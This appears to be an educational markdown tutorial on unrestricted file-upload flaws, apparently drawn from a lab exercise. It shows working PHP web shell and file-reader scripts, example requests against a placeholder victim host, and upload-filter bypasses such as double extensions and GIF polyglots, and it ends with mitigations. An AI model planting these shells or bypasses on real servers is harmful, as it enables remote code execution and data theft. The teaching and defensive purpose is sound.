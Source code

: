 ### From a security standpoint
- the worst-case is when an application lets you upload server-side scripts (PHP, Java, Python, etc.) **and** actually runs them. That instantly gives you the power to deploy your own web shell.

<p align="center">
  <img src="https://github.com/user-attachments/assets/bf96970c-b4f3-454b-8f3d-5dcd584cde31" alt="image" />
</p>

---

### What’s a Web Shell?

A web shell is a small script you upload that turns HTTP requests into system commands on the server. Once it’s in place, you interact with it just like an API:

```http
GET /uploads/shell.php?command=whoami HTTP/1.1
Host: victim.example.com
```

The script grabs the `command` parameter, runs it via `system()` or `shell_exec()`, and returns the result in the HTTP response.

---

### Why It’s So Dangerous

1. **Full File Access**

   * Read sensitive files: `/etc/passwd`, database credentials, logs.
   * Modify configuration or plant backdoors for persistent access.

2. **Remote Code Execution (RCE)**

   * Run arbitrary commands (`ls`, `grep`, even `rm -rf /`).
   * Install malware or crypto-miners.

3. **Network Pivoting**

   * Use the compromised server to scan or attack internal resources.
   * Launch further exploits against other systems under the same network.

---

### Example 1: Read Any File

```php
<?php
// reader.php
header('Content-Type: text/plain');
echo file_get_contents('/home/carlos/secret');
?>
```

1. Upload as `reader.php` via the vulnerable endpoint.
2. Visit `https://victim.example.com/uploads/reader.php` to see the secret file.

---

### Example 2: Interactive Command Shell

```php
<?php
// shell.php
if (isset($_GET['command'])) {
  echo "<pre>" . shell_exec($_GET['command']) . "</pre>";
}
?>
```

1. Upload as `shell.php`.
2. Invoke commands directly:

   ```
   https://victim.example.com/uploads/shell.php?command=uname -a
   ```

---

### Common Protections & Bypasses

* **Extension Whitelisting**: Only allow `.jpg`, `.png`, etc.

  * *Bypass*: use `.php5`, `.phtml`, or double extensions like `shell.php.jpg`.
* **Content-Type Checking**: Validate MIME and magic bytes.

  * *Bypass*: polyglot files (`GIF89a;<?php ... ?>`).
* **Store Outside Web Root**: Save uploads in a non-executable directory.

  * Serve them through a proxy script that only delivers safe file types.
* **Filename Sanitization**: Rename to random IDs, strip dangerous characters.
* **Permission Hardening**: Ensure upload directories aren’t marked executable (`chmod 0644`).

---

### Quick Mitigation Checklist

* Enforce strict **whitelist** of allowed file types.
* Validate file **headers** (magic bytes) and **size** limits.
* Rename files and store them **outside** web-accessible folders.
* Implement **anti-virus** or static code scanning on upload.
* Use a **Content Security Policy** (CSP) to limit script execution.
